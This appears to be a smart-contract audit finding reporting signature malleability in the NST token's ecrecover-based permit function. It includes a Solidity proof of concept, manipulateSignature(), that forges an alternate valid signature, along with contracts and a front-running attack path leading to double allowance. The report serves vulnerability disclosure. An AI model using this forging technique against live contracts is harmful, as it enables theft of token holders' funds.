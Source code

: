 Unique Pistachio Chipmunk

High

# Signature malleability problem, possibly leading to double allowance and spending.

### Summary

The original signature can be manipulated into another signature that is still valid. If an external contract uses a transation Id based on the signature to check whether a permit has been used or not, then a double allowance and spending is possible. This might lead to loss of funds. 

A double spending/allowance is a 100% loss, therefore, I mark this as *high*.

### Root Cause

It is well known that Ethereum's ```ecrecover``` function is subject to the signature malleability problem; see: 
[https://medium.com/draftkings-engineering/signature-malleability-7a804429b14a](https://medium.com/draftkings-engineering/signature-malleability-7a804429b14a)



The following function uses ```ecrecover``` and thus has a problem: 

[https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/dba30d7a676c20dfed3bda8c52fd6702e2e85bb1/nst/src/Nst.sol#L191-L208](https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/dba30d7a676c20dfed3bda8c52fd6702e2e85bb1/nst/src/Nst.sol#L191-L208)

### Internal pre-conditions

None

### External pre-conditions

An external contract might use signature-based transactionId to check whether a permit signature has been used before. As a result, even though a variant of the original signature was executed, the external contract will think the original signature was not used. As a result, a new signature might be signed, and double spending becomes possible. 


### Attack Path
Initial Permit Setup:

    Owner: Bob
    Spender: Alice
    Allowance: Bob gives Alice permission to spend 100 NST tokens.
    Bob signs a permit with a nonce, a deadline, and other details.

Signature Malleability:

    An attacker, Eve, notices (when front-running BobContract.authorizeTransfer()) that Bob's permit signature can be changed to another still valid signature (see manipulateSignature() in the POC), so Eve crafts and uses an alternate valid signature (with a different v value) to call the permit function before the deadline, granting Alice the allowance.

Signature Expiry and Reissuance:

    After the deadline expires, Bob believes that the original permit was not used due to the signature malleability issue.
    Bob issues a new permit signature for Alice with a new nonce and possibly a new deadline.

Double Allowance:

    The new permit signature is intended to replace the old one, but since the attacker has already used the original (or an alternate valid version), Bob’s new permit may end up granting additional allowance to Alice (or Eve) beyond what was intended.

### Impact

It uses Ethereum's ecrecover, as a result,  different signature is used to execute the transaction, making the original caller to think that the transaction didn't go through although it was successful, this can lead to double allowance and spending.

### PoC
The function ```manipulateSignature()``` takes the original signature and generates a new signature, which is also valid. 
```javascript

    function manipulateSignature(bytes memory signature) public pure returns(bytes memory) {
        (uint8 v, bytes32 r, bytes32 s) = splitSignature(signature);

        uint8 manipulatedV = v % 2 == 0 ? v - 1 : v + 1;
        uint256 manipulatedS = modNegS(uint256(s));
        bytes memory manipulatedSignature = abi.encodePacked(r, bytes32(manipulatedS), manipulatedV);

        return manipulatedSignature;
    }

    function splitSignature(bytes memory sig) public pure returns (uint8 v, bytes32 r, bytes32 s) {
        require(sig.length == 65, "Invalid signature length");
        assembly {
            r := mload(add(sig, 32))
            s := mload(add(sig, 64))
            v := byte(0, mload(add(sig, 96)))
        }
        if (v < 27) {
            v += 27;
        }
        require(v == 27 || v == 28, "Invalid signature v value");
    }
```

Below, we show how the malleability vulnerability can be exploited to mislead an owner (BobContract) to give twice allowance to a spender (SpenderContract), leading to double transfer of 5000 NSts.

Attack Scenario

    Initial Setup:
        BobContract is set up with a authorizeTransfer() function that uses nstToken.permit() to grant a spender permission to transfer NST tokens from BobContract.

    Front-Running Attack:
        The attacker, Eve, notices that BobContract is about to call authorizeTransfer().
        Eve executes a front-running transaction that uses a manipulated signature to call nstToken.permit() directly before BobContract's transaction is mined.

    Eve Executes Transfer:
        Using the manipulated permit, Eve calls SpenderContract.performTransfer() to transfer NST tokens from BobContract to an account she controls, Alice.

    BobContract's authorizeTransfer() Call:
        BobContract proceeds with its authorizeTransfer() call, which fails since the nonce was used, but the transfer has already been executed due to Eve's front-running.

   Bob creates another valid signature since he thought the original transaction fails (```executedTransactions[txId] = false```). This allows double allowance and thus double transfers to occur, which is a loss of funds. 

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

interface INst {
    function permit(
        address owner,
        address spender,
        uint256 value,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) external;

    function transferFrom(
        address from,
        address to,
        uint256 value
    ) external returns (bool);
}

contract BobContract {
    mapping(bytes32 => bool) public executedTransactions; // Track executed transactions

    INst public nstToken; // NST token contract

    constructor(address _nstToken) {
        nstToken = INst(_nstToken);
    }

    function authorizeTransfer(
        address spenderContract,
        address recipient,
        uint256 value,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) external {
        // Create a transaction ID based on permit details
        bytes32 txId = keccak256(abi.encodePacked(spenderContract, recipient, value, deadline, r, s, v));

        // Check if this transaction ID has already been executed, but a variant of the original signature might be used to get around this
        require(!executedTransactions[txId], "BobContract: transaction already executed");

        // Mark transaction as executed
        executedTransactions[txId] = true;

        // Authorize the spender contract with the permit
        nstToken.permit(address(this), spenderContract, value, deadline, v, r, s);

        // Call the spender contract to perform the transfer
        ISpender(spenderContract).performTransfer(address(nstToken), recipient, value);
    }
}

interface ISpender {
    function performTransfer(address token, address recipient, uint256 value) external;
}

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

interface INst {
    function transferFrom(
        address from,
        address to,
        uint256 value
    ) external returns (bool);
}

contract SpenderContract {
    function performTransfer(address token, address recipient, uint256 value) external {
        INst(token).transferFrom(msg.sender, recipient, value);
    }
}

```


### Mitigation
Use the latest version of the OpenZeppelin ECDSA library. 